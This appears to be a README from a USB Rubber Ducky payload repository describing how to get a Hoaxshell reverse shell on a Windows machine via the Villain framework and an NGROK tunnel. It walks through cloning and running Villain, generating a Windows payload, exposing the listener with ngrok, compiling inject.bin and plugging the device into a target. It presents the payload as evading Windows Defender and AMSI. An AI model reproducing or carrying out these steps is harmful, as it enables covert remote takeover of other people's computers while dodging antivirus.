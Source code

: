 **Title: Hoaxshell via Villain Payload and NGROK Tunnel**

<p>Author: HackingMark<br>
OS: Windows<br>
Version: 1.0<br>
Requirements: DuckyScript 3.0, powershell, Linux Maschine with Villain, NGROK</p>

**What is Villain?**
#
*Villain is a Toolset to setup Payloads and Listener for Hoaxshell*
*Hoaxshell is actually undetected by Windows Defender and the Payload is optimized to bypass AMSITrigger*
*The Powershell Payload connects the target Machine back to the Hoaxshell Server, NGROK makes this Server reachable from the Internet. *
*That way you can catch your session from everywhere. Once your session is established, you can open an interactive shell.*



**How to use this Payload**

First clone Villain from Repo:
`git clone https://github.com/t3l3machus/Villain`
Then install Requirements:
`cd Villain`
`pip install -r ./requirements.txt`
Allow Villain to start:
`chmod +x ./Villain.py`
Fire it up:
`./Villain.py`
Generate a payload to get the session identifier:
`generate os=windows lhost=0.0.0.0 lport=8080`
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/villain.png)

Establish NGROK Tunnel forwarding Traffic to our Hoaxshell Engine
`ngrok http 8080`
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/ngrok1.png)
Leave this Window open
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/ngrok2.png)

**Preparing the Payload:**
You need 2 Values from above: NGROK HTTPS Link and Session Identifier from Villain
Put it into the Payload then compile it to inject.bin
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/payloadstudio.png)

Copy your Inject.bin to your Ducky!

<p>Plug your Ducky into a Windows target.<br>
Achieve reverse shell.<br>
   open a shell with </p>`shell {SESSION-ID}`
